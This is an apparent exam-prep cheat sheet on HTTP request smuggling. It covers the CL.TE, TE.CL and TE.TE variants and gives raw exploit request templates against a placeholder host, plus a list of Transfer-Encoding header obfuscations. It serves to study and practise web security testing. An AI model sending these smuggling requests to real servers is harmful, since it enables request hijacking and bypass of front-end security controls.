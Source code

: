 # HTTP Request Smuggling

## Types:

1. HTTP/1.1
    1. CL.TE
    2. TE.CL
    3. TE.TE
3. HTTP/2

## How to find each type:

1. HTTP/1.1
    1. CL.TE
       - [Using 404 response](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/training/http_req_smuggling_practice.md#confirming-clte-using-404)
    2. TE.CL
       - [Using 404 response](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/training/http_req_smuggling_practice.md#confirming-tecl-using-404)
    3. TE.TE
       - [Using invalid method GPOST](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/training/http_req_smuggling_practice.md#obfuscating-te)

## How to exploit each type:

1. HTTP/1.1
    1. CL.TE
       ```
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Length: 13               --> Content length is 13 which includes smuggled
       Transfer-Encoding: chunked    

       0  --> Since it is chunked the 0 terminates the first request, sending smuggled to the backend

       SMUGGLED               
       ```
    2. TE.CL
         ```
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Length: 3               --> Content length is 3 which includes the 8
       Transfer-Encoding: chunked    

       8  --> This is the length of the following request
       SMUGGLED
       0   --> Needs to end in /r/n/r/n
       ```
    3. TE.TE
       - You need to obfuscate the Transfer-Encoding header so that one server does not process it
        ```
        Transfer-Encoding: xchunked
        Transfer-Encoding : chunked
        Transfer-Encoding: chunked
        Transfer-Encoding: x
        Transfer-Encoding:[tab]chunked
        [space]Transfer-Encoding: chunked
        X: X[\n]Transfer-Encoding: chunked
        Transfer-Encoding
        : chunked
       ```

## Other important notes:
- HTTP/1.1 allows for content-length transfer-encoding
- Some servers that do support the Transfer-Encoding header can be induced not to process it if the header is obfuscated in some way.
- HTTP/2 is only vulnerable if the backend supports HTTP/1.1
- You need to manually switch the protocol in repeater
